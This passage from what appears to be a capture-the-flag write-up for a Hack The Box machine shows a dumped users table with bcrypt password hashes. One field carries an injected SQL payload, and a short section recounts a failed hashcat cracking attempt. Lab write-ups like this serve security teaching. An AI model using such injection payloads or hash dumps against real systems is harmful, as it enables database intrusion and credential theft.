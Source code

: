     | 7  | mwisoky@example.org           | Monique D'Amore          | food,travel,nature             | 0       | $2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7. | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 8  | lura.zieme@example.org        | Desmond Greenfelder      | food,travel,nature             | 0       | $2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 9  | pouros.marcus@example.net     | Mrs. Roxanne Raynor      | food,travel,nature             | 0       | $2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 10 | mellie.okon@example.com       | Rose Rutherford          | food,travel,nature             | 0       | $2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 11 | trace94@example.net           | Dr. Chelsie Greenholt I  | food,travel,nature             | 0       | $2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 12 | kayleigh18@example.com        | Prof. Johanna Ullrich MD | food,travel,nature             | 0       | $2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 13 | tdach@example.com             | Prof. Gina Brekke        | food,travel,nature             | 0       | $2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2. | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 14 | lindsey.muller@example.org    | Jarrett Bayer            | food,travel,nature             | 0       | $2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 15 | tschmidt@example.org          | Macy Walter              | food,travel,nature             | 0       | $2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 16 | murray.marilie@example.com    | Prof. Devan Ortiz DDS    | food,travel,nature             | 0       | $2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 17 | barbara.goodwin@example.com   | Eula Shields             | food,travel,nature             | 0       | $2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 18 | maggio.lonny@example.org      | Mariano Corwin           | food,travel,nature             | 0       | $2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 19 | chackett@example.org          | Madisyn Reinger DDS      | food,travel,nature             | 0       | $2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 20 | layla.swift@example.net       | Jayson Strosin           | food,travel,nature             | 0       | $2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 21 | rshanahan@example.net         | Zelda Jenkins            | food,travel,nature             | 0       | $2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 22 | shyatt@example.com            | Eugene Okuneva I         | food,travel,nature             | 0       | $2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 23 | sierra.russel@example.com     | Mrs. Rhianna Hahn DDS    | food,travel,nature             | 0       | $2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 24 | ferry.erling@example.com      | Viola Vandervort DVM     | food,travel,nature             | 0       | $2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 25 | beryl68@example.org           | Prof. Margret Von Jr.    | food,travel,nature             | 0       | $2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 26 | ellie.moore@example.net       | Florence Crona           | food,travel,nature             | 0       | $2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 27 | littel.blair@example.org      | Tod Casper               | food,travel,nature             | 0       | $2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 28 | 0xdf@intentions.htb           | 0xdf                     | food')/**/__REFLECTED_VALUE__# | 0       | $2y$10$YUmJGH/nZwMGYmrz.TqDHOtpq1VK4xrw87YtsEJhaobmQ23pY7AbW | 2023-09-14 18:14:31 | 2023-09-14 20:45:38 |
    +----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
    ...[snip]...
    

### Admin Access

#### Crack Failures

I’ll fire up `hashcat` on my system with these hashes, but after five minutes,
none have cracked, and progress is moving very slowly as these are Bcrypt
hashes. This doesn’t seem the be the way.

#### Enumerate v2 Login
